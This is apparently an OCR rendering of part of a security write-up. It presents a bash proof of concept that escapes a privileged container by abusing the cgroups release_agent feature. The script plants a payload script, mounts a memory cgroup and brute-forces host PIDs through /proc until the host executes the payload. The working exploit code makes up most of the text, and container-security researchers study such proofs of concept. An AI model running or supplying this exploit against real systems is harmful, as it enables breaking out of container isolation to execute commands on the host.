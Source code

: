 The only caveat with this technique is it is in no way shape or form subtle, and can increase the pid count very high. As no long running processes are kept running this _should_ not cause reliability issues, but don’t quote me on that.

The below PoC implements these techniques to provide a more generic attack than first presented in Felix’s original PoC for escaping a privileged container using the cgroups `release_agent` functionality:

```bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
  if [ $((${TPID} % 100)) -eq 0 ]
  then
    echo "Checking pid ${TPID}"
    if [ ${TPID} -gt ${MAX_PID} ]
    then
      echo "Exiting at ${MAX_PID} :-("
      exit 1
    fi
  fi
  # Set the release_agent path to the guessed pid
  echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
  # Trigger execution of the release_agent
  sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
  TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
```